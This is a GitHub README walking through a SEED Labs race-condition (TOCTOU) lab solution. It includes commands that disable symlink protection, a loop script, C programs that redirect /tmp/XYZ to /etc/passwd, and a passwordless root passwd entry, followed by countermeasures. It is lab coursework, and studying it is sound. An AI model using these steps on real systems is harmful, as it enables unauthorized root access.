

# Race-Condition-Seedsecurity
Race condition vulnerability seed security lab solution
### Initial Setup
Symbolic link (also symlink or soft link) is a term for any file that contains a reference to another file or directory in the form of an absolute or relative path and that affects pathname resolution. According to the documentation, “symlinks in world-writable sticky
directories (e.g. /tmp) cannot be followed if the follower and directory owner do not match the symlink
owner.” 

In order to perform the exploit in Ubuntu, this protection needs to be disabled using command 
```
// On Ubuntu 12.04, use the following:
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
// On Ubuntu 16.04, use the following:
$ sudo sysctl -w fs.protected_symlinks=0
```

### A Vulnerable Program
The program [vulp.c](vulp.c) contains race condition vulerability. It appends a string of user input to the end of
a temporary file */tmp/XYZ*. Since the code runs with the root privilege, i.e., its effective use ID is zero, it
can overwrite any file. To prevent itself from accidentally overwriting other people’s file, the program first
checks whether the real user ID has the access permission to the file /tmp/XYZ; that is the purpose of the
`access()` function at line no. 16. 

If the real user ID indeed has the right, the program opens the file in line no. 17 and
append the user input to the file. 

Due to the time window between the check (access()) and the use (fopen()),
there is a possibility that the file used by `access()` is different from the file used by `fopen()`, even
though they have the same file name /tmp/XYZ. 

The goal of this lab is to homehow point make /tmp/XYZ a symbolic link pointing to a protected file, such as */etc/passwd*, so that the attacker can append user input to */etc/passwd* and as a result gain the root privilage. With root privilege, one can overwrite any file.

Use the following commands to compile the above code, and turn its binary into a Set-UID
program that is owned by the root: 
```
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

### Task 1: Choosing Our Target
*/etc/passwd* is not writable by normal user. If one successes to add a record to the password file such that the record points to the root user with uid=0, they can get the root access of the machine. 

Inside the password file, each user has an entry, which consists of seven fields separated by
colons (:). `root:x:0:0:root:/root:/bin/bash` this is the entry for root user. It has a 0 on the uid field (3rd column). So, any user with uid=0 is be root user.

Each entry also contains a password field, which is the second field. In the example above, the field is
set to "x", indicating that the password is stored in another file called /etc/shadow (the shadow file). But, if there is a password hash instead of x, operating system does not look for the password in the shadow file. The password field does not hold the actual password; it holds the one-way hash value of the password. To add this hash value, one can simply add a new user with a specific password and copy the password shown in */etc/shadow* file and paste it to the password section (2nd cloumn) of */etc/passwd* file. For ease, one can simply use the password of seed, because the password is deed (known to the seed user).

Interestingly, there is a magic
value used in Ubuntu live CD for a password-less account, and the magic value is `U6aMy0wojraho`. If this value is put in the password field of a user entry, user only needs to
hit the return key when prompted for a password.

`test:U6aMy0wojraho:0:0:test:/root:/bin/bash` this can an entry for */etc/passwd* with username test and no password.

### Task 2.A: Launching the Race Condition Attack

In order to make the attack successful, it is necessary to meet the access() condition at line no. 16. And then link the /tmp/XYZ file to /etc/passwd so that any entry added to /tmp/XYZ is reflected to /etc/passwd. But since it is not allowed to modify the vulnerable program, attacker needs to create another program that unlinks /tmp/XYZ and links it to /etc/passwd. 
```
unlink("/tmp/XYZ");
symlink("/etc/passwd","/tmp/XYZ");
```
Linux command `ln -sf` can also be used to create symbolic links. Here the `f` option means
that if the link exists, remove the old one first. The implementation of the "ln" command actually uses
`unlink()` and `symlink()`.

But, because it is not certain when **context switching** would occur in the vulnerable program (between access() and open() lines), it is necessary to run the the exploitable program in a loop. To increase the probability of the attack, the vulnerable program can also be run in loop until the exploit succeeds. According to the document, [loop.sh](loop.sh) runs the *vulp* program a number of times until the attack gets successful. 
```
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" = "$new" ] 
do
./vulp < passwd_input
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```
Input in this program, [passwd_input](passwd_input) contains `test:U6aMy0wojraho:0:0:test:/root:/bin/bash`. So everytime the loop runs, it addes this content to /tmp/XYZ file unless the exploit gets successful. When this content is added to /etc/passwd file, the exploit gets successful. Here the loop runs everytime unless /etc/passwd is modified.

To automate the exploitable program, [attacking_script.c](attacking_script.c) can be used. 
```
#include <unistd.h>
int main(){
  while(1){
    unlink("/tmp/XYZ");
    symlink("/etc/passwd","/tmp/XYZ");
  }
  return 0;
}
```

This c program needs to be first compiled using command `gcc -o exploit attacking_script.c`. Next, exploit and vulnerable program needs to run using command `./exploit` and `sudo ./loop.sh` respectively.This process leads to a new entry in /etc/passwd and on getting a change in the file, vulnerable program stops with a message "STOP... The passwd file has been changed". Here, ./exploit just links and unlinks /tmp/XYZ such that in any trial, `unlink("/tmp/XYZ");`, `if(!access(fn, W_OK))`, `symlink("/etc/passwd","/tmp/XYZ");` and `fopen(fn, "a+")` runs respectively in a sequence. So that attacker can pass assess() function and then link it to /etc/passwd and add an entry there. 
>`./exploit` and `sudo ./loop.sh` are to be run in two different terminal windows.


### Task 2.B: An Improved Attack Method
There are times when even though everything is done correctly, it does not lead to a successful attack. This is because the ownership of *tmp/XYZ* file changes to root. 

The main reason for the situation to happen is that the attack program is context switched out right after
it removes /tmp/XYZ (i.e., `unlink()`), but before it links the name to another file (i.e., `symlink()`).
Remember, the action to remove the existing symbolic link and create a new one is not atomic (it involves
two separate system calls), so if the context switch occurs in the middle (i.e., right after the removal of
/tmp/XYZ), and the target Set-UID program gets a chance to run its `fopen(fn, "a+")` statement, it
will create a new file with root being the owner. After that, the attack program can no longer make changes
to /tmp/XYZ.

>Basically, using the `unlink()` and `symlink()` approach, there is a race condition in the attack program. Therefore, while trying to exploit the race condition in the target program, the target program may accidentally “exploit” the race condition in the attack program, defeating the attack. How ironic!

To solve this problem, `unlink()` and `symlink()` needs to be atomic. The [improved.c](improved.c) program first makes two symbolic links `/tmp/XYZ` and `/tmp/ABC`, and then uses the `SYS_renameat2` system call to atomically switch them. This allows to change what /tmp/XYZ
points to without introducing any race condition. It should be noted that there is no function wrapper for the
SEED Labs – Race Condition Vulnerability Lab 6
SYS renameat2 system call in the libc library on Ubuntu 16.04, so it is necessary to  invoke the system call
using `syscall()`, instead of invoking it like a normal function call.

```
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>
int main()
{
unsigned int flags = RENAME_EXCHANGE;
unlink("/tmp/XYZ"); 
symlink("/dev/null", "/tmp/XYZ");
unlink("/tmp/ABC"); 
symlink("/etc/passwd", "/tmp/ABC");
syscall(SYS_renameat2, 0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
return 0;
}
```
Now, on compiling this improved.c using command `gcc -o improve improved.c`, and then on running loop.sh using `sudo ./loop.sh` and then running improve `./improve`, it adds an entry to the /etc/passwd file without the problem of root being /tmp/XYZ's owner.
>`sudo ./loop.sh` must be running when `./improve` is run in different terminal windows.

### Task 3: Countermeasure: Applying the Principle of Least Privilege
When `seteuid(1000);` is added to the vulnerable program (after line 16, after access() check), it returns segmentation fault during execution of the attack and the attack is not successful. This is because during the check process, it makes sure that effective user id is 1000.

> You can also get the real and effective uid before the access() line using `getuid()` and `geteuid()` functions respectively. Because I already knew the euid of seed, i.e. 1000, I directly provided that value.

### Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme
Ubuntu 10.10 and later come with a built-in protection scheme against race condition attacks. When this protection is on, it does not permit the symlink in /tmp to be followed if the follower and directory owner do not match the symlink. This is why, the attack with this mode on gives "No permission" error.
```
// On Ubuntu 12.04, use the following command:
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
// On Ubuntu 16.04, use the following command:
$ sudo sysctl -w fs.protected_symlinks=1
```


